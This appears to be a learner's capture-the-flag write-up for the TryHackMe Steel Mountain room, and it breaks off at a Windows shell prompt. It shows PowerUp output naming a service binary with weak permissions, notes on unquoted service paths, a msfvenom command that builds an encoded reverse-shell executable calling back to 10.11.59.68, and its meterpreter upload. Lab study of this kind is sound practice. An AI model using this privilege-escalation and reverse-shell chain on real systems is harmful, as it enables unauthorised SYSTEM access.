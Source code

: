 ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
	
#the only 'CanRestart' that is set to 'True' is for the 'AdvancedSystemCareService9' service
#this shows up as an 'unquoted service path' vulnerability
        #didnt know what it was so after looking it up:
        #When a service is created whose executable path contains spaces and isn't enclosed within quotes
        #allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is) 
        #!!ITS BASICALLY LIKE PATH MANIPULATION IN LINUX!!#

#next step is therefore to use msfvenom to generate a reverse shell as a windows executable
#I inputted the code shown from the room:
(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.59.68 LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe

#I honestly did not think this would work but it did
#now I have to upload this Advanced.exe to the meterpreter, restartthe program and then I should get root access
        ##NOTE --> this is not taking advantage of the service being unquotes - this exploits the weak file permissions instead
#1 I terminated the PS session with Ctrl + C
#2 (I had to exit and run the exploit again as the shell was slow)
#3:
meterpreter > upload /home/kali/THM/practice/steelmountain/Advanced.exe
[*] uploading  : /home/kali/THM/practice/steelmountain/Advanced.exe -> Advanced.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/THM/practice/steelmountain/Advanced.exe -> Advanced.exe
[*] uploaded   : /home/kali/THM/practice/steelmountain/Advanced.exe -> Advanced.exe
#4:
meterpreter > shell
Process 76 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
